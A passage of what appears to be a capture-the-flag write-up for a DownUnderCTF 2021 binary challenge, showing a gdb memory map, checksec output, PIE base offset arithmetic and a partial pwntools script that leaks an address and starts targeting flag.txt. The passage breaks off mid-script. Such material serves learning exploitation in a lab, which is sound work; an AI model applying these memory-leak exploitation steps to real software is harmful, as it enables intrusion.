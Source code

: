 ```
      0x7ffff7e14000     0x7ffff7f5f000   0x14b000    0x25000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7f5f000     0x7ffff7fa9000    0x4a000   0x170000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7fa9000     0x7ffff7faa000     0x1000   0x1ba000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7faa000     0x7ffff7fad000     0x3000   0x1ba000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7fad000     0x7ffff7fb0000     0x3000   0x1bd000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7fb0000     0x7ffff7fb6000     0x6000        0x0 
      0x7ffff7fcc000     0x7ffff7fd0000     0x4000        0x0 [vvar]
      0x7ffff7fd0000     0x7ffff7fd2000     0x2000        0x0 [vdso]
      0x7ffff7fd2000     0x7ffff7fd3000     0x1000        0x0 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7fd3000     0x7ffff7ff3000    0x20000     0x1000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ff3000     0x7ffff7ffb000     0x8000    0x21000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x29000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x2a000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0 
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]

```
Binary base: 0x555555554000

Let's also check the security:
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```

PIE is enabled, so we can't brute force an address. But we leak one anyway, and the offsets never change.

We see at `main+58`, 0x555555556024 is loaded into RAX, then it is stored in RANDBUF.

0x555555556024 - 0x555555554000 = 0x2024

So the binary base will be at `leaked address` - 0x2024.

Let's see the address of NAME. At `main+38` we see that the address of NAME in the current context
is 0x5555555580a0

0x5555555580a0 - 0x555555554000 = 0x40a0

So name will be at `base` + 0x40a0.

```python
from pwn import *

context.log_level = 'debug'

r = remote("pwn-2021.duc.tf", 31907)

r.recvuntil(b"name?")
r.send(b"A" * 0x1f + b"B")
r.recvuntil(b">")
r.sendline(b"2")
base = u64(r.recvline().split(b"B")[1].strip(b"\n").ljust(8, b"\x00")) - 0x2024
log.success("base = " + hex(base))
name = base + 45 + 0x40a0
log.success("name = " + hex(name))
r.sendline(b"1")
r.recvuntil(b"to?")
randbuf = b"flag.txt\x00"
```